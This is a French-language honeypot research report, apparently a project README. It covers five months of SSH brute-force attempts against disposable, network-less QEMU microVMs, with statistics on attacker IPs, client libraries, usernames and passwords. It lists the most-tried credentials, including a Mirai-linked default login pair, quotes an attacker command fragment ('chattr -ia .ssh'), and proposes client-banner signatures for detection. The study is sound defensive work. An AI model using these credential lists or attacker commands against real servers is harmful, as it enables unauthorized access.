









# Cinq mois de honeypot SSH : 530 860 tentatives, 698 microVM, et un botnet qui n'a rien appris depuis 2018

> **TL;DR** — J'ai exposé un faux serveur SSH sur Internet pendant 133 jours. Chaque attaquant qui devine un mot de passe obtient sa propre microVM QEMU jetable, sans accès réseau, avec un kernel maison. Résultat : 530 860 tentatives d'authentification, 6 677 adresses IP uniques, 1 656 connexions réussies, 12 939 commandes enregistrées, et une vision très concrète de ce à quoi ressemble vraiment le bruit de fond offensif d'Internet.

*English version: [README.md](README.md)*

> [!NOTE]
> **Mis à jour le 4 octobre 2026.** La première version comptait des *sessions*, qui sont en réalité des canaux SSH : les bots envoient chaque commande dans son propre canal, si bien qu'une seule connexion produit en moyenne environ treize « sessions ». Tous les chiffres qui utilisaient la session comme unité sont désormais calculés par **connexion réussie qui exécute des commandes** (993). Cela change une conclusion — la Chine est le **premier** pays par connexions qui exécutent des commandes, pas le septième — et supprime un artefact : le `exit` présenté comme la commande la plus tapée était ajouté par le honeypot lui-même après chaque commande. Deux commandes citées dans la partie sur la concurrence (`iptables -F`, `multics.x64`) provenaient en réalité du contenu d'un fichier envoyé par `scp`, pas de commandes exécutées ; elles sont retirées. Les chiffres d'authentification sont inchangés. Ajouts depuis la publication : [la chasse aux données](#la-chasse-aux-données--ou-plutôt-au-rebond-suivant), [un chapitre sur ce que font les payloads](#suivre-les-payloads), à partir d'abuse.ch et de VirusTotal, et les [angles morts](#angles-morts).

---

## Sommaire

- [Pourquoi un honeypot](#pourquoi-un-honeypot)
- [L'architecture](#larchitecture)
- [Les chiffres bruts](#les-chiffres-bruts)
- [Vecteur d'accès initial : le mot de passe, rien d'autre](#vecteur-daccès-initial--le-mot-de-passe-rien-dautre)
- [Les logins les plus tentés](#les-logins-les-plus-tentés)
- [Les mots de passe les plus tentés](#les-mots-de-passe-les-plus-tentés)
- [D'où viennent-ils](#doù-viennent-ils)
- [Ce qu'ils tapent une fois dedans](#ce-quils-tapent-une-fois-dedans)
- [Les campagnes identifiées](#les-campagnes-identifiées)
- [Les payloads et leurs URLs](#les-payloads-et-leurs-urls)
- [Suivre les payloads](#suivre-les-payloads)
- [Ce que j'en retiens](#ce-que-jen-retiens)
- [Angles morts](#angles-morts)

---

## Pourquoi un honeypot

L'idée de départ était simple : je voulais des données à moi. On lit beaucoup de rapports sur « les attaques SSH », en général basés sur des télémétries d'éditeurs qu'on ne peut pas vérifier. Je voulais voir de mes yeux ce qui frappe une IP quelconque, sans réputation particulière, sur un VPS lambda.

La contrainte, c'est qu'un honeypot SSH qui fait illusion doit donner un vrai shell. Et un vrai shell, c'est un vrai risque : si l'attaquant s'échappe, c'est ma machine qui part dans un botnet, et c'est moi qui me retrouve à envoyer du trafic malveillant. Les honeypots « à shell émulé » comme Cowrie contournent le problème en simulant les commandes, mais ça se détecte en trois commandes et les bots un peu sérieux décrochent.

D'où le compromis retenu : **un vrai shell, dans une vraie VM, jetable, sans réseau**.

## L'architecture


```mermaid
flowchart TB
    NET["🌐 Internet<br/>scanners, botnets"] -->|"TCP :2222"| GO

    subgraph HOST["VPS hôte — Debian/Ubuntu"]
        GO["<b>Serveur SSH en Go</b><br/>golang.org/x/crypto/ssh<br/>module <code>microvm/host</code>"]
        GO --> AUTH{"Mot de passe<br/>correct ?"}
        AUTH -->|non| LOG1["journalisation<br/>table <code>failed_logins</code>"]
        AUTH -->|oui| POOL["<b>Gestionnaire de VM</b><br/>1 microVM par empreinte d'attaquant"]

        POOL --> SOVL["overlay de session<br/><code>session-XXXX.qcow2</code><br/><i>éphémère</i>"]
        SOVL -.->|backing file| OVL["overlay attaquant<br/><code>attacker-N.qcow2</code><br/><i>persistant</i>"]
        SOVL -->|"fusion à la<br/>fermeture propre"| OVL
        OVL -.->|backing file<br/>lecture seule| BASE[("rootfs de base<br/>honeypot.ext4 — 512 Mo")]

        POOL --> QEMU

        subgraph VM["microVM QEMU — KVM"]
            QEMU["<code>qemu-system-x86_64</code><br/>machine <b>microvm</b>, 256 Mo<br/>virtio-blk / virtio-serial / virtio-rng<br/><b>aucun -netdev → pas de réseau</b>"]
            KERN["kernel custom <code>vmlinux</code> 6.12.81"]
            QEMU --- KERN
        end

        QEMU <-->|"console virtio-serial"| GO
        GO --> REC["<b>Enregistreur asciinema v2</b><br/>capture i/o octet par octet"]
        REC --> DB[("SQLite<br/>honeypot.db")]
        GO --> WEB["UI web :8080<br/>replay des sessions"]
        GO --> HOOK["notifications temps réel"]
    end
```

### Le serveur SSH

C'est un binaire Go unique, sans dépendance externe au runtime. Le module s'appelle `microvm`, organisé en `host/internal/{ssh,vm,db,web,bus,notify}`. Il s'appuie sur `golang.org/x/crypto/ssh` côté serveur, `gorilla/websocket` pour le replay live dans l'UI web, et SQLite pour la persistance.

Il tourne sous systemd en utilisateur dédié `honeypot`, membre du groupe `kvm` (nécessaire pour ouvrir `/dev/kvm`), avec `NoNewPrivileges=yes`, `ProtectSystem=strict`, `PrivateTmp=yes` et une liste blanche de chemins accessibles en écriture. Le binaire et les images sont en `ReadOnlyPaths`.

### Le piège d'authentification

C'est la partie la plus amusante du design. Le serveur n'accepte pas n'importe quel mot de passe — ce serait trop voyant, et un bot qui réussit du premier coup avec un mot de passe aléatoire comprend tout de suite. À la place, chaque attaquant se voit **assigner de façon déterministe** un mot de passe tiré d'une liste courte et crédible :

```json
["admin","password","123456","root","toor","ubuntu","debian","raspberry","alpine","changeme"]
```

L'attaquant doit « trouver » *son* mot de passe. Concrètement, il bruteforce, et au bout d'un certain nombre d'essais il tombe dessus. Du point de vue du bot, c'est indiscernable d'un vrai serveur mal configuré. Du point de vue des données, ça me donne un signal propre : le nombre de tentatives avant succès, et surtout la **liste complète** de ce qu'il a essayé avant.

Les logs du serveur sont assez parlants :

```
2026-09-21T11:43:22 auth user="root" src=101.37.117.27:56158: wrong password (expected "debian")
2026-09-21T11:45:22 auth user="root" src=101.37.117.27:33904: wrong password (expected "debian")
2026-09-21T11:52:22 auth user="root" src=101.37.117.27:39982: wrong password (expected "debian")
```

### La microVM

Une fois l'authentification réussie, le serveur instancie une VM. Pas un conteneur — une vraie VM matérielle avec KVM, parce que je ne voulais pas dépendre de l'isolation du kernel hôte face à un attaquant root.

C'est du `qemu-system-x86_64` avec le type de machine **`microvm`** : pas de BIOS, pas d'ACPI, pas de PCI, juste un bus MMIO minimal. Le shell est servi à l'attaquant en 39 ms médians (voir plus bas), et l'empreinte mémoire est ridicule. La VM reçoit :

| Composant | Choix | Pourquoi |
|---|---|---|
| Machine | `microvm` + `-enable-kvm` | démarrage quasi instantané, surface d'attaque QEMU minimale |
| Mémoire | 256 Mo | suffisant pour un shell, frustrant pour un mineur |
| Kernel | `vmlinux` custom 6.12.81 | compilé sans les pilotes inutiles, réduit la surface |
| Disque | `virtio-blk` sur overlay qcow2 | copy-on-write par attaquant |
| Console | `virtio-serial` | le shell, relayé vers la session SSH |
| Entropie | `virtio-rng` | sinon les outils crypto bloquent et ça sent le piège |
| **Réseau** | **aucun `-netdev`** | **c'est tout l'intérêt** |

> [!IMPORTANT]
> **Pas de réseau du tout.** Ce n'est pas un pare-feu restrictif, ce n'est pas un namespace réseau filtré : il n'y a tout simplement aucune interface réseau dans la VM. Un `wget` échoue au niveau du socket. C'est la garantie qu'aucun payload téléchargé ne peut s'exécuter ni se propager, même en cas de bug dans le reste de la chaîne.

Le coût de ce choix, c'est que je vois les *URLs* que les attaquants tentent de contacter, mais je ne récupère pas les binaires. C'est un arbitrage assumé : je préfère une chaîne dont je peux garantir l'innocuité plutôt que des échantillons de malware et une nuit d'insomnie.

### Pourquoi une microVM : le temps de démarrage

Le choix du type de machine `microvm` n'est pas une coquetterie : c'est la contrainte qui rend tout le reste possible.

Un honeypot qui donne un vrai shell dans une vraie VM doit démarrer cette VM **pendant la poignée de main SSH**, entre le moment où l'attaquant est authentifié et le moment où il doit voir son invite de commande. Si ce délai est perceptible, le piège se trahit : personne n'attend trois secondes après un `ssh root@…` réussi. Le budget disponible est donc celui de la latence réseau — quelques dizaines de millisecondes.

Le serveur journalise deux mesures distinctes à chaque session. Sur l'ensemble de la période :

| Mesure | n | min | médiane | p90 | p99 | max |
|---|---:|---:|---:|---:|---:|---:|
| QEMU prêt (`VM ready in`) | 1 043 | 50 ms | **51 ms** | 101 ms | 103 ms | 202 ms |
| Première sortie du shell (`VM first output after`) | 12 821 | 3 ms | **39 ms** | 61 ms | 140 ms | 391 ms |

La seconde ligne est celle qui compte, parce que c'est celle que l'attaquant perçoit : **le temps médian entre l'authentification et le premier octet de l'invite est de 39 ms**, et 90 % des sessions sont servies en moins de 61 ms.

> [!NOTE]
> Un mot sur la première ligne : les valeurs se concentrent sur 50/51 ms et 101/102 ms, ce qui trahit une boucle d'attente à pas de 50 ms côté superviseur. Ce chiffre est donc un **majorant quantifié**, pas une mesure fine du démarrage de QEMU. La métrique « première sortie », elle, est mesurée en continu et n'a pas cet artefact — c'est celle qu'il faut retenir.

Pour situer l'ordre de grandeur : **39 ms, c'est moins qu'un aller-retour réseau depuis l'Asie ou l'Amérique du Sud**, d'où vient la majorité du trafic observé. La VM finit de démarrer pendant que les paquets sont encore sur le câble. Du point de vue de l'attaquant, il n'y a pas de démarrage du tout — le shell est simplement là.

C'est ce que permet le type de machine `microvm` de QEMU : pas de BIOS à exécuter, pas d'énumération ACPI, pas de bus PCI à sonder, juste un bus MMIO minimal et trois périphériques virtio. Un démarrage de VM classique (SeaBIOS + ACPI + PCI) se compte en secondes, soit deux ordres de grandeur au-dessus, et aurait rendu le piège inutilisable.

### La persistance par attaquant

Chaque attaquant est identifié par une empreinte : son adresse IP source, et rien d'autre. Le stockage est une **chaîne qcow2 à trois niveaux**, et c'est le second pilier de la rapidité de démarrage :

```
honeypot.ext4                    ← rootfs de base, 512 Mo, partagé, immuable
   └── attacker-N.qcow2          ← état persistant de l'attaquant N (698 fichiers)
         └── session-XXXX.qcow2  ← écritures de la session en cours, éphémère
```

La VM n'écrit jamais dans un gros fichier : elle écrit dans un overlay de session vide, créé à la volée. À la fermeture propre de la session, cet overlay est fusionné dans l'overlay de l'attaquant — c'est le `vm[…] exited and committed` des logs, observé 975 fois sur 1 043 démarrages de VM.

Ce troisième niveau a deux vertus. D'abord la **rapidité** : créer un qcow2 vide est instantané, quelle que soit la taille de l'image en dessous. Ensuite la **sûreté** : si la VM plante, est tuée, ou fait quelque chose de destructeur, l'état persistant de l'attaquant n'est jamais corrompu — on jette simplement l'overlay de session. Les 64 overlays `session-*.qcow2` encore présents sur disque sont précisément ces sessions qui ne se sont pas terminées proprement.

Quand le même attaquant revient, il retrouve **sa** machine avec ses modifications. Ses crontabs, ses fichiers dans `/tmp`, sa clé SSH ajoutée à `authorized_keys`. C'est ce qui rend le piège crédible dans la durée, et ce qui permet d'observer les campagnes qui reviennent sur plusieurs mois — comme l'opérateur `kswpad`, revenu sur sa propre VM pendant quatre mois.

Les VM inactives sont récupérées après un délai d'inactivité (907 événements `idle for` dans les logs), ce qui borne la consommation mémoire de l'hôte : seules quelques VM tournent réellement à un instant donné.

698 VM ont été créées pour 6 677 attaquants : l'immense majorité ne dépasse jamais l'écran de login.

### L'enregistrement

Chaque session est enregistrée au format **asciinema v2**, octet par octet, avec horodatage à la microseconde, dans un blob SQLite. Les flux entrant (`"i"`, ce que tape l'attaquant) et sortant (`"o"`, ce que voit l'attaquant) sont séparés — ce qui permet de reconstruire exactement la frappe, y compris les fautes de frappe et les corrections.

```
[1.404094115,"i","c"]
[1.404901327,"o","c"]
[1.683720568,"i","u"]
[1.684692776,"o","u"]
[1.788702059,"i","r"]
[1.789876997,"o","r"]
[1.892635207,"i","l"]
```

Oui, c'est un attaquant en train de taper `curl`, lettre par lettre, dans une VM qui n'a pas de réseau. Au total : **736 Mo d'enregistrements** pour 12 939 commandes.

Le schéma SQLite est volontairement simple :

```sql
attackers      -- empreinte, IP, client SSH, mot de passe assigné, first/last seen
vms            -- overlay qcow2 associé à un attaquant
sessions       -- métadonnées + blob asciinema
login_attempts -- chaque essai, succès ou non
failed_logins  -- échecs bruts, y compris avant qu'un attaquant soit connu
passwords      -- déduplication des mots de passe tentés
```

---

## Les chiffres bruts

**Période observée : du 28 avril 2026 au 21 septembre 2026** — 133 jours d'activité.

| Métrique | Valeur |
|---|---:|
| Tentatives d'authentification | **530 860** |
| dont échecs | 529 207 |
| dont succès | 1 656 |
| Taux de succès | 0,31 % |
| Adresses IP uniques | **6 677** |
| Pays d'origine distincts | **138** |
| Connexions réussies qui exécutent des commandes | **993** |
| Commandes exécutées (un canal SSH chacune) | 12 939 |
| microVM créées | 698 |
| Mots de passe distincts tentés | **77 173** |
| Commandes distinctes observées | 1 855 |
| Moyenne de tentatives / jour | ~3 612 |
| Moyenne de connexions avec commandes / jour | ~6,8 |
| Moyenne de commandes / jour | ~88 |

### Répartition dans le temps


```mermaid
%%{init: {'theme':'base','themeVariables':{'xyChart':{'backgroundColor':'transparent','titleColor':'#8b949e','xAxisLabelColor':'#8b949e','xAxisTitleColor':'#8b949e','xAxisTickColor':'#8b949e','xAxisLineColor':'#8b949e','yAxisLabelColor':'#8b949e','yAxisTitleColor':'#8b949e','yAxisTickColor':'#8b949e','yAxisLineColor':'#8b949e','plotColorPalette':'#4C72B0'}}}}%%
xychart-beta
    title "Connexions avec commandes, par mois"
    x-axis ["Avr 26", "Mai 26", "Juin 26", "Juil 26", "Août 26", "Sept 26"]
    y-axis "Connexions" 0 --> 450
    bar [5, 129, 400, 148, 107, 204]
```

Le pic de juin (400 connexions) correspond à une campagne massive et très concentrée : le 18 juin à lui seul totalise 54 connexions et 653 commandes. Les journées les plus chargées en *tentatives* sont ailleurs — 31 309 le 6 mai, 30 634 le 8 septembre — ce qui montre que bruteforce de masse et exploitation sont deux activités menées par des acteurs différents.

Côté horaire, la distribution est remarquablement plate : entre 26 et 79 connexions selon l'heure UTC, sans creux nocturne. C'est entièrement automatisé, personne ne dort.

---

## Vecteur d'accès initial : le mot de passe, rien d'autre

C'est le résultat le plus net de toute l'étude, et il mérite d'être énoncé seul :

> [!NOTE]
> **Sur 530 860 tentatives d'authentification, le nombre de tentatives par clé publique est de zéro. Absolument toutes les attaques observées sont du bruteforce de mot de passe.**

Pas une seule tentative d'exploitation de vulnérabilité dans le protocole SSH. Pas une tentative de downgrade d'algorithme. Pas de Terrapin, pas de `regreSSHion` (CVE-2024-6387), rien. Ce que fait Internet, 3 600 fois par jour, c'est essayer `root` / `123456`.

Autre point : le honeypot écoute sur le **port 2222**, pas sur le 22. Vérification faite dans les logs de démarrage, il n'a jamais été sur autre chose, et il n'y a aucune redirection NAT.

> [!WARNING]
> **Déplacer SSH sur un port alternatif courant ne protège de rien.** Ce honeypot a encaissé 3 600 tentatives par jour sur le port 2222. Les scanners de masse balayent 2222, 2022, 22222 et 222 exactement comme le 22. Le « security through obscurity » sur le numéro de port réduit le bruit dans vos logs, pas le risque.

Soyons honnêtes : 2222 n'a rien d'exotique. C'est probablement le port SSH le plus courant après le 22, et les scanners le savent. Ces données montrent que les ports alternatifs habituels sont balayés aussi fort que le 22. Elles ne disent pas si un port haut vraiment aléatoire serait trouvé aussi vite — voir [Angles morts](#angles-morts).

Le nombre de tentatives par attaquant est très asymétrique : médiane à 9 essais, 99ᵉ percentile à 723, et un record à **29 077 tentatives** depuis une seule adresse. La médiane basse correspond aux bots qui testent trois mots de passe et passent à la cible suivante ; la longue traîne, à des bruteforcers dédiés qui s'acharnent pendant des semaines.

### Les bibliothèques SSH utilisées : trois métiers distincts

Le champ `ssh_client` est la bannière que le client annonce dans le tout premier échange du protocole. Elle est déclarative — donc falsifiable — mais c'est précisément ce qui la rend intéressante : ce qu'un outil choisit d'annoncer est une signature en soi.

26 bannières distinctes ont été observées, qui se ramènent à **9 bibliothèques**. La répartition **par tentatives d'authentification** :


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Tentatives d'authentification par bibliothèque
    "Go (x/crypto/ssh)" : 370717
    "libssh" : 96978
    "OpenSSH" : 36543
    "libssh2" : 25178
    "russh (Rust)" : 1128
    "SSH.NET (C#)" : 708
    "autres" : 139
```

Mais la répartition **par connexions qui exécutent des commandes** est presque l'inverse :


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Connexions avec commandes, par bibliothèque
    "libssh" : 687
    "Go (x/crypto/ssh)" : 274
    "russh (Rust)" : 19
    "OpenSSH" : 12
    "paramiko" : 1
```

Cet écart n'est pas un détail statistique : **c'est la preuve que bruteforcer et exploiter sont deux métiers séparés, outillés différemment.**

| Bibliothèque | IP | Tentatives | % tent. | Succès | Tent./IP | Conn. actives | % actives | Période |
|---|---:|---:|---:|---:|---:|---:|---:|---|
| **Go** (`x/crypto/ssh`) | 2 019 | 370 717 | 69,8 % | 554 | 184 | 274 | 27,6 % | 29/04 → 21/09 |
| **libssh** | 2 928 | 96 978 | 18,2 % | 728 | 33 | **687** | **69,2 %** | 29/04 → 21/09 |
| **OpenSSH** | 1 349 | 36 543 | 6,9 % | 100 | 27 | 12 | 1,2 % | 28/04 → 21/09 |
| **libssh2** | 261 | 25 178 | 4,7 % | 254 | 96 | **0** | 0 % | 29/04 → 21/09 |
| **russh** (Rust) | 67 | 1 128 | 0,2 % | 19 | 17 | 19 | 1,9 % | 29/04 → 17/09 |
| **SSH.NET** (C#) | 2 | 708 | 0,1 % | 0 | 354 | 0 | 0 % | 01/09 → 21/09 |
| **sshcustom** | 2 | 94 | — | 1 | 47 | 0 | 0 % | 03/07 |
| **paramiko** (Python) | 6 | 34 | — | 0 | 6 | 1 | 0,1 % | 14/05 → 16/09 |
| **PuTTY** | 3 | 11 | — | 0 | 4 | 0 | 0 % | 06/05 → 20/09 |

#### 1. Go : le moteur du bruteforce de masse

**Go représente à lui seul 69,8 % de toutes les tentatives d'authentification** — 370 717 essais depuis 2 019 adresses IP, soit 184 essais par IP. Une seule bannière, `SSH-2.0-Go`, qui est la valeur par défaut de `golang.org/x/crypto/ssh` laissée telle quelle.

C'est aussi ce client qui porte la reconnaissance ciblée : **1 662 des 1 663 tentatives sur le login `remi-ziolkowski`** viennent de lui. La dérivation du nom d'utilisateur à partir du nom de domaine est donc une fonctionnalité de cet outil précis, pas un comportement général du paysage.

Ses IP sont très distribuées (CN:327, KR:231, US:149, PK:135). Sur ses 554 authentifications réussies, seules 274 donnent lieu à des commandes — environ la moitié : il valide autant d'identifiants qu'il en utilise.

Qu'une seule et même codebase concentre 70 % du trafic offensif SSH qui m'atteint est une information en soi : le bruteforce de masse n'est pas une activité artisanale, c'est un petit nombre d'outils réutilisés à très grande échelle. Et Go s'y est imposé, pour les mêmes raisons qu'ailleurs — binaire statique, cross-compilation triviale, concurrence légère.

#### 2. libssh : l'exploitant

libssh fait quatre fois moins de tentatives que Go, mais **exécute des commandes dans 687 connexions, soit 69 % de toutes celles qui en exécutent.** C'est l'outil de ceux qui entrent vraiment.

Ici la version porte un résultat, donc je la garde : **`libssh_0.9.6` pèse 88 850 des 96 978 tentatives de la famille, et 640 de ses 687 connexions actives.** Sa fenêtre d'activité est le détail décisif — **du 21 mai au 21 septembre**, exactement, au jour près, la fenêtre de la campagne Outlaw identifiée plus haut par la clé `mdrfckr` et le bloc `chattr -ia .ssh`. Les deux signaux, recueillis indépendamment (bannière protocolaire d'un côté, frappes clavier de l'autre), désignent le même acteur.

> [!TIP]
> **libssh 0.9.6 est une version de décembre 2020.** Un botnet qui tourne encore dessus en 2026 n'a pas recompilé son outillage depuis cinq ans. Cela colle avec une clé SSH inchangée depuis 2018 : ces opérations ne sont pas maintenues, elles sont dupliquées.

#### 3. libssh2 : la validation d'identifiants pure

libssh2 — une bibliothèque différente de libssh malgré le nom — présente le profil le plus net du corpus : 25 178 tentatives, **254 authentifications réussies, et pas une seule commande.**

Ces acteurs devinent le mot de passe, l'authentification aboutit, et ils se déconnectent sans rien exécuter. Ils ne cherchent pas à exploiter la machine : ils constituent un inventaire d'identifiants valides. C'est la moitié amont du marché à deux étages évoqué plus haut, isolée à l'état pur dans les données.

SSH.NET présente exactement le même profil, en plus petit : 708 tentatives, aucune commande — et, dans son cas, aucun succès non plus.

#### 4. OpenSSH : la bannière que tout le monde falsifie

La famille OpenSSH cumule 1 349 IP et 36 543 tentatives pour **12 connexions qui exécutent des commandes**. C'est l'anomalie du tableau : la bibliothèque la plus légitime du monde est aussi celle qui n'exploite presque rien. L'explication est simple — la plupart de ces bannières sont fausses, et elles recouvrent deux stratégies opposées.

**`SSH-2.0-OpenSSH`, sans numéro de version** (31 101 tentatives). Aucune version publiée d'OpenSSH n'annonce cela : la bannière réelle contient toujours la version. C'est un client sur mesure à bannière tronquée, et son profil est extrême : **5 adresses IP seulement, soit 6 220 essais par IP**, avec le dictionnaire le plus large du corpus — **7 620 noms d'utilisateur distincts** et 24 380 mots de passe. Cinq machines dédiées, en RU, FR, UA et US, qui martèlent pendant quatre mois et demi.

**`SSH-2.0-OpenSSH_7.4`** (4 549 tentatives). OpenSSH 7.4 date de décembre 2016, l'ère CentOS 7. Profil exactement inverse : **1 313 adresses IP pour 3 essais par IP**, et aucune commande. Une nappe extrêmement large et extrêmement fine, depuis CN:248, IN:166, KR:133. La bannière est vraisemblablement choisie pour se fondre dans le bruit des vieux serveurs, et le motif « trois essais puis on passe » vise à rester sous les seuils de `fail2ban`.

Ces deux entrées illustrent les deux évasions opposées : concentrer sur peu d'IP en acceptant d'être bloqué, ou diluer sur des milliers d'IP pour ne jamais déclencher de seuil.

Le reste de la famille est résiduel, mais une entrée mérite d'être signalée : **une IP sud-africaine annonçant `OpenSSH_8.0`, active les 20 et 21 septembre**, qui tente les logins `redis`, `web3`, `wallet` et `solana`. Du ciblage crypto explicite, et la campagne la plus récente du corpus.

#### 5. La longue traîne : outillage moderne et humains

- **russh** (Rust) : 67 IP, 1 128 tentatives, 19 connexions d'une commande chacune. Peu de logins testés (5 distincts) mais 135 mots de passe — du ciblage, pas du ratissage. Outillage récent, à surveiller : c'est probablement à quoi ressemblera le bruteforce de demain.
- **SSH.NET** (écosystème C#/.NET) : apparu seulement en septembre, 2 IP, 708 tentatives exclusivement sur `root`, 382 mots de passe, aucun succès. Outillage Windows.
- **sshcustom** : 2 IP turques, 94 tentatives sur une seule journée. Quelqu'un teste son propre outil — la bannière ne cherche même pas à mentir.
- **paramiko** (Python) : 6 IP, 34 tentatives. Des scripts artisanaux.
- **PuTTY** : 3 IP, 11 tentatives au total. PuTTY est un client graphique Windows — personne n'automatise du bruteforce avec. Ce sont très probablement des humains, qui tapent quelques identifiants à la main et abandonnent.

#### Ce qu'on peut en faire en détection

> [!TIP]
> **La bannière client est un signal de détection à très faible taux de faux positifs.** Sur un serveur de production, les administrateurs utilisent OpenSSH, et les outils d'automatisation légitimes (Ansible, Terraform) annoncent OpenSSH ou paramiko. Une bannière **libssh**, **`SSH-2.0-Go`** nue, **libssh2** ou **`SSH-2.0-OpenSSH`** sans version n'a quasiment aucune raison d'apparaître sur un parc classique. Ces quatre signatures couvrent à elles seules **92,7 %** des tentatives que j'ai observées.
>
> Et surtout : la bannière est échangée **avant l'authentification**, dans le premier paquet du protocole. Elle est donc exploitable pour rejeter une connexion sans jamais évaluer le moindre identifiant.
---

## Les logins les plus tentés


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Répartition des noms d'utilisateur tentés
    "root" : 417517
    "admin" : 9086
    "ubuntu" : 7779
    "user" : 3408
    "test" : 2603
    "autres" : 90467
```

**`root` représente 78,6 % de toutes les tentatives.** Le reste est une longue traîne de comptes de service et d'utilisateurs par défaut.

| # | Login | Tentatives | Catégorie |
|---:|---|---:|---|
| 1 | `root` | 417 517 | superutilisateur |
| 2 | `admin` | 9 086 | générique |
| 3 | `ubuntu` | 7 779 | cloud par défaut |
| 4 | `user` | 3 408 | générique |
| 5 | `test` | 2 603 | générique |
| 6 | `remi-ziolkowski` | 1 663 | **ciblé — voir ci-dessous** |
| 7 | `postgres` | 1 093 | service |
| 8 | `ftpuser` | 992 | service |
| 9 | `deploy` | 971 | CI/CD |
| 10 | `debian` | 861 | cloud par défaut |
| 11 | `remiziolkowski` | 774 | **ciblé** |
| 12 | `dev` | 771 | générique |
| 13 | `oracle` | 723 | service |
| 14 | `support` | 713 | générique |
| 15 | `user1` | 710 | générique |
| 16 | `git` | 696 | service |
| 17 | `guest` | 690 | générique |
| 18 | `ubnt` | 673 | **Ubiquiti par défaut** |
| 19 | `345gs5662d34` | 662 | **voir encadré** |
| 20 | `cloud` | 504 | générique |
| 21 | `steam` | 496 | serveur de jeu |
| 22 | `centos` | 457 | cloud par défaut |
| 23 | `testuser` | 431 | générique |
| 24 | `curl` | 411 | anormal |
| 25 | `mysql` | 400 | service |
| 26 | `orangepi` | 397 | **SBC par défaut** |
| 27 | `operator` | 391 | générique |
| 28 | `cat` | 362 | anormal |
| 29 | `pi` | 355 | **Raspberry Pi par défaut** |
| 30 | `jenkins` | 355 | CI/CD |

Trois observations.

**Le nom de domaine est utilisé comme dictionnaire.** `remi-ziolkowski` et `remiziolkowski` totalisent 2 437 tentatives. Personne n'a deviné ça au hasard : les bots dérivent des noms d'utilisateur candidats à partir du nom de domaine ou du reverse DNS de la cible. Si votre serveur s'appelle `mail.acme-corp.fr`, attendez-vous à voir `acme`, `acmecorp` et `acme-corp` dans vos logs.

**Les identifiants IoT par défaut sont toujours dans la rotation.** `ubnt` (Ubiquiti), `pi` (Raspberry Pi OS), `orangepi`, `steam` : ce sont des comptes qui n'existent que sur des appareils grand public ou des SBC. Les botnets ne font pas de distinction entre un VPS et une caméra de surveillance, ils tentent tout partout.

> [!TIP]
> **La signature `345gs5662d34`.** Ce login apparaît 662 fois, avec le mot de passe associé `3245gs5662d34`. C'est le couple d'identifiants codé en dur dans le firmware de certains DVR Polycom/HiSilicon, popularisé par les variantes de **Mirai**. Sa présence dans vos logs est une signature exploitable à 100 % : aucun système légitime n'utilise ce compte. C'est un excellent candidat pour une règle de détection à faible taux de faux positifs.

**Les logins `curl` et `cat`** (411 et 362 tentatives) sont probablement des bugs de parsing dans les outils d'attaque — une ligne de commande mal découpée où le nom du binaire finit dans le champ username. Même les attaquants ont des bugs.

---

## Les mots de passe les plus tentés

77 173 mots de passe distincts ont été essayés. Voici la tête de liste.


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Top 10 des mots de passe
    "123456" : 9510
    "admin" : 4314
    "password" : 3532
    "123" : 3442
    "1234" : 2950
    "12345678" : 2137
    "12345" : 1476
    "root" : 1260
    "1" : 1116
    "test" : 981
```

| # | Mot de passe | Tentatives | Type |
|---:|---|---:|---|
| 1 | `123456` | 9 510 | classique |
| 2 | `admin` | 4 314 | identique au login |
| 3 | `password` | 3 532 | classique |
| 4 | `123` | 3 442 | classique |
| 5 | `1234` | 2 950 | classique |
| 6 | `12345678` | 2 137 | classique |
| 7 | `12345` | 1 476 | classique |
| 8 | `root` | 1 260 | identique au login |
| 9 | `1` | 1 116 | classique |
| 10 | `test` | 981 | classique |
| 11 | `111111` | 941 | classique |
| 12 | `P@ssw0rd` | 911 | **« complexe » selon la politique AD** |
| 13 | `fjbdfdjkdsfs541544AA@@` | 887 | **signature de botnet** |
| 14 | `admin123` | 754 | classique |
| 15 | `123456789` | 704 | classique |
| 16 | `user` | 676 | identique au login |
